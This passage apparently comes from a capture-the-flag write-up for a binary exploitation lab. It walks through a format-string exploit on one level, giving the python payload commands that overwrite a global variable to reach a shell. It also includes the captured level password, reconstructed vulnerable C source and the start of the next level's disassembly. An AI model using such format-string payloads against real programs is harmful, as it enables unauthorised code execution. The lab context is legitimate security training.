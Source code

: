 So our input will be something like 
`python -c "print '\x08\x04\x98\x8c'[::-1] + '%x %x %x %n'" > /tmp/hello`.

After running the input, we are able to see that `0x804988c` had been overwritten. Now, we need to make it so that we are able to overwrite to the value 64. 
![image](https://hackmd.io/_uploads/Bk8VUctSa.png)

To do that, I tried to add more characters before the %n ` python -c "print '\x08\x04\x98\x8c'[::-1] + 'B' * 38 + '%x %x %x %n'" > /tmp/hello` and I got the Wait What message in the stdout, which means now all i nede to do is to keep stdin open
![image](https://hackmd.io/_uploads/rkJEP5tSa.png)

Im in the shell, and the password is `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`
![image](https://hackmd.io/_uploads/r1nKwqYr6.png)

Using the steps above, the source code should be 
```clike=
#include <stdio.h>
#include <stdlib.h>

static int	g_var = 0;
void v()
{
    // 80484a7
    char buf[512];
    
    // 80484c7
    fgets(buf, 512, stdin);
    
    // 80484d5
    printf(buf);
    if (g_var != 0x40)
        return;
    
    // 8048507
    fwrite("Wait what?!", 0xc, 0x1, stdout);
    system("/bin/sh");
}

int main()
{
    v();
}
```

## level4 
Here is the objdump for the level4 application
```
08048444 <p>:
 8048444:       55                      push   ebp
 8048445:       89 e5                   mov    ebp,esp
 8048447:       83 ec 18                sub    esp,0x18
 804844a:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 804844d:       89 04 24                mov    DWORD PTR [esp],eax
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt>
 8048455:       c9                      leave
 8048456:       c3                      ret

08048457 <n>:
 8048457:       55                      push   ebp
 8048458:       89 e5                   mov    ebp,esp
 804845a:       81 ec 18 02 00 00       sub    esp,0x218
```